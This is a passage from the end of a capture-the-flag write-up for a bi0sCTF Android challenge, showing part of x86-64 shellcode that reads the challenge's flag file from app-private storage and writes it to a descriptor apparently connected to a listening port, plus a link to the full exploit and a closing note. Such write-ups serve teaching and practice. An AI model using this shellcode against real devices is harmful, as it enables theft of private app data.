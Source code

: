 ```asm
	mov rsi, 0
	mov rdx, 0
	syscall

read:
	mov rdi, rax
	mov rax, 0
	mov rsi, rsp
	mov rdx, 0x50
	syscall

write:
    mov rax, 0x1
    mov rdi, r9
    mov rsi, rsp
    mov rdx, 0x50
    syscall

finish:
	push 0x3c
	pop rax
	syscall

path: db "/data/data/bi0sctf.android.challenge/flag", 0
```

## Exploit Script with comments:

> Receiveing the Flag on the listening port:

![alt text](image-3.png)
> Quick Mind Map:

![bob](image.png)
- The Final exploit to exploit can be found [here](https://gist.github.com/tourpran/e18490a2d4790befcb2d18e3c18b16ae)

## Closing Note:

Congrats to ``The Flat Network Society`` for first blooding the challenge. Hope you guys had fun solving the challenge!